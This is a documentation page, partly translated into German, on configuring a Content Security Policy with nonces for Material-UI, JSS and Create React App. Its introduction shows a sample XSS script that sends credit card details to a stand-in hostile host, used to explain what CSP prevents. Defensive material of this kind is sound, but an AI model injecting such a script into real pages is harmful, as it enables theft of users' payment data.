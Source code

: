 # Inhaltssicherheitsrichtlinie (Content Security Policy, CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## Was ist CSP und warum ist es nützlich?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. Diese Liste wird vom Server als Header zurückgegeben. Angenommen, Sie haben eine Website unter `https://example.com` gehostet. Der CSP-Header `default-src: 'self';` erlaubt alle Assets, die sich unter `https://example.com/*` befinden und blockt alle anderen. Wenn es auf Ihrer Website einen für XSS anfälligen Bereich gibt, in dem nicht eingegebene Benutzereingaben angezeigt werden, könnte ein Angreifer Folgendes eingeben:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Diese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.

Weitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Wie kann man CSP implementieren?

### Server-Side Rendering (SSR)

To use CSP with Material-UI (and JSS), you need to use a nonce. Eine Nonce ist eine zufällig generierte Zeichenfolge, die nur einmal verwendet wird. Daher müssen Sie eine Server-Middleware hinzufügen, um für jede Anforderung eine zu generieren. JSS hat ein [tolles Tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) wie man dies mit Express und React Helmet erreichen kann. Lesen Sie für einen grundlegenden Überblick weiter.

Eine CSP-Nonce ist eine Base 64-codierte Zeichenfolge. Sie können so erstellen:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string. Sie wenden dann dieses Nonce auf den CSP-Header an. Ein CSP-Header könnte mit der angewendeten Nonce so aussehen:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tag on the server.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

Dann müssen Sie dieses Nonce an JSS übergeben, damit es den nachfolgenden `<style>`-Tags hinzugefügt werden kann.

The way that you do this is by passing a `<meta property="csp-nonce" content={nonce} />` tag in the `<head>` of your HTML. JSS will then, by convention, look for a `<meta property="csp-nonce"` tag and use the `content` value as the nonce.

Here is an example of what a fictional header could look like:

```html
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default. This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build. This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.
